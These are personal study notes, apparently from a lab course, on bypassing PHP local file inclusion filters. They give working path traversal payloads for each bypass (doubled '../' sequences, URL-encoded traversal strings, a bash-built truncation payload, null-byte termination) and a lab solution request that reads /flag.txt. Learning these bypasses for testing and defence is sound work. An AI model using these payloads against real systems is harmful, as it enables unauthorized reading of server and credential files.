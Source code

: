 
# Bypasses

## Non-Recursive Path Traversal Filters

most popular filter to mitigate LFI is removing `../`
in this case typing `../../etc/passwd` will result in this output /etc/passwd and `../`'s  got removed
Code: 
```php
$language = str_replace('../', '', $_GET['language']);
```
to bypass this type of filter what an attacker can do is double `../ `
eg.
`....//....//....//....//....//....//....//....//etc/passwd`
that will result in removing ../ but 2nd ../ will stay intact
as we may use `..././` or `....\/` and several other recursive LFI payloads. Furthermore, in some cases, escaping the forward slash character may also work to avoid path traversal filters (e.g. `....\/`), or adding extra forward slashes (e.g. `....////`)

---
## Encoding

PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload  but even on newer versions we may find custom filters that may be bypassed through URL encoding. The 
characters `../` can be URL encoded into `%2e%2e%2f`, which will bypass the filter.

In the last example `....//` can be URL encoded into `%2e%2e%2e%2e%2f%2f`.

The payload :`%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd `
decoded:
`....//....//....//....//....//....//....//....//etc/passwd `
or
`%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`
decoded:
`../../../../etc/passwd`

---
##  Approved Paths

Some web applications may also use Regular Expressions to ensure that the file being included is under a specific path. For example, the web application in the labs has `./languages` directory, as follows:

Code: 
```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```
to bypass this type of filter we need to specify the directory name before our path traversal 
for example: `./languages/../../../../etc/passwd`

---
##  Appended Extension
As discussed in the previous section, some web applications append an extension to our input string (e.g. `.php`), to ensure that the file we include is in the expected extension. With modern versions of PHP, we may not be able to bypass this and will be restricted to only reading files in that extension, which may still be useful

#### Path Truncation

In earlier versions of PHP, defined strings have a maximum length of 4096 characters, likely due to the limitation of 32-bit systems. If a longer string is passed, it will simply be `truncated`, and any characters after the maximum length will be ignored. Furthermore, PHP also used to remove trailing slashes and single dots in path names, so if we call (`/etc/passwd/.`) then the `/.` would also be truncated, and PHP would call (`/etc/passwd`). PHP, and Linux systems in general, also disregard multiple slashes in the path (e.g. `////etc/passwd` is the same as `/etc/passwd`). Similarly, a current directory shortcut (`.`) in the middle of the path would also be disregarded (e.g. `/etc/./passwd`).

If we combine both of these PHP limitations together, we can create very long strings that evaluate to a correct path. Whenever we reach the 4096 character limitation, the appended extension (`.php`) would be truncated, and we would have a path without an appended extension. Finally, it is also important to note that we would also need to `start the path with a non-existing directory` for this technique to work.

An example of such payload would be the following:

Code: url
```url
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```
code to print 2048 ./
```bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```
We may also increase the count of `../`, as adding more would still land us in the root directory, as explained in the previous section. However, if we use this method, we should calculate the full length of the string to ensure only `.php` gets truncated and not our requested file at the end of the string (`/etc/passwd`). This is why it would be easier to use the first method.

---
## Null Bytes

PHP versions before 5.5 were vulnerable to `null byte injection`, which means that adding a null byte (`%00`) at the end of the string would terminate the string and not consider anything after it. This is due to how strings are stored in low-level memory, where strings in memory must use a null byte to indicate the end of the string, as seen in Assembly, C, or C++ languages.

To exploit this vulnerability, we can end our payload with a null byte (e.g. `/etc/passwd%00`), such that the final path passed to `include()` would be (`/etc/passwd%00.php`). This way, even though `.php` is appended to our string, anything after the null byte would be truncated, and so the path used would actually be `/etc/passwd`, leading us to bypass the appended extension.

---
## Exercise
**The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt**
![[Pasted image 20230305170523.png]]
trying 2 bypass techniques double `../` and leave languages in the beginning to bypass path also  
![[Pasted image 20230305170618.png]]
![[Pasted image 20230305170755.png]]
`GET /index.php?language=languages/....//....//....//....//....//flag.txt `





